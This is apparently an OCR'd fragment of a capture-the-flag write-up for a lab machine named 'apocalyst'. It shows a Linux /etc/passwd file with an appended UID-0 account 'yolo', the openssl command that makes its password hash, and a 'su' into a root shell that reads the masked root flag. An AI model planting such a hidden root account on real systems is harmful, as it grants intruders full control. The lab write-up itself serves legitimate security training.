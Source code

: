 ```
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false

yolo:$1$YOLO$XnxyLaBvXkFvxMWUnk68p:0:0:root:/root:/bin/bash
```


```
# openssl passwd -1 -salt YOLO password
$1$YOLO$XnxyLaBvXkFvxMWUnk68p/
```
```
$ su - yolo
Password: 
root@apocalyst:~# 

root@apocalyst:~# cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXX
```